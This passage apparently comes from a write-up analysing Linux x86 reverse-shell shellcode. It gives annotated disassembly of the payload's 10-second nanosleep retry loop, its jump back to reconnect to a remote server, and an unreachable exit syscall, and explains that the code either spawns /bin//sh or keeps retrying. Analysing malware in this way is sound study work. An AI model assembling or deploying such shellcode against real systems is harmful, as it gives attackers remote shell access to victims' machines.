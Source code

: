 
                            ; push the value of `tv_nsec` to the stack
                            ; sleep 0 nanoseconds
00000084  53                push ebx  

                            ; push the value of `tv_sec` to the stack
                            ; sleep 10 seconds
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp
</code></pre><p>Once the shellcode sleeps <code>10 seconds</code>, it goes back attempting to connect to the remote server (address <code>00000014</code>):</p><pre><code class="language-nasm">                            ; go back to 00000014 (to connect to the remote server)
0000008F  E980FFFFFF        jmp 0x14

                            ; apparently, this instruction is never going to be executed 
00000094  C3                ret
</code></pre><p>Finally, there are some instructions that call the syscall <code>exit()</code>, in order to exit gracefully.</p><pre><code class="language-nasm">                            ; call exit() syscall
00000095  31C0              xor eax,eax
00000097  B001              mov al,0x1
00000099  CD80              int 0x80
</code></pre><p>From what it seems, this last syscall is never executed. In fact, there are only two possibilities:</p><ul><li>executes <code>/bin//sh</code></li><li>loops forever, sleeping <code>10 seconds</code> and trying to connect to the remote server</li></ul><p>Perhaps these instructions were added for conformity with other Linux executable, in order to avoid <em>standing out</em>.</p>